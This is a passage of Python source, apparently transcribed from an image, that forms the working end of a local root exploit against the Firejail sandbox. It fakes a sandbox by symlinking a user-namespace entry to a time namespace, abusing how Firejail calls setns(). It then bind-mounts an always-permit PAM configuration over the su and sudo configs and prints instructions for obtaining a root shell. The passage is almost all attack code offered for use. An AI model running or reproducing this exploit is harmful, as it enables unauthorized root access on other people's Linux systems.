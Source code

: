 ```python
os.makedirs("/proc/1/ns")

# Firejail expects to find the umask for the "container" here, else it fails
with open(FJ_MNT_ROOT / "umask", 'w') as umask_fd:
    umask_fd.write("022")

# Create the symlink to the join file to pass Firejail's sanity check
os.symlink(join_file, FJ_MNT_ROOT / "join")
# Since we cannot join our own user namespace again fake a user namespace that
# is actually a symlink to our own time namespace. This works since Firejail
# calls setns() without the nstype parameter.
os.symlink(time_ns_src, "/proc/1/ns/user")

# The process joining our fake sandbox will still have normal user privileges,
# but it will be a member of the mount namespace under the control of *this*
# script while *still* being a member of the initial user namespace.
# 'no_new_privs' won't be set since Firejail takes over the settings of the
# target process.
#
# This means we can invoke setuid-root binaries as usual but they will operate
# in a mount namespace under our control. To exploit this we need to adjust
# file system content in a way that a setuid-root binary grants us full
# root privileges. 'su' and 'sudo' are the most typical candidates for it.
#
# The tools are hardened a bit these days and reject certain files if not owned
# by root e.g. /etc/sudoers. There are various directions that could be taken,
# this one works pretty well though: Simply replacing the PAM configuration
# with one that will always grant access.
with tempfile.NamedTemporaryFile('w') as tf:
    tf.write("auth sufficient pam_permit.so\n")
    tf.write("account sufficient pam_unix.so\n")
    tf.write("session sufficient pam_unix.so\n")

    # Be agnostic about the PAM config file location in /etc or /usr/etc
    for pamd in ("/etc/pam.d", "/usr/etc/pam.d"):
        if not os.path.isdir(pamd):
            continue
        for service in ("su", "sudo"):
            service = Path(pamd) / service
            if not service.exists():
                continue
            # Bind mount over new "helpful" PAM config over the original
            bindMount(tf.name, service)

print(f"You can now run 'firejail --join={os.getpid()}' in another terminal to obtain \
a shell where 'sudo su -' should grant you a root shell.")

while True:
    line = sys.stdin.readline()
    if not line:
        break
```
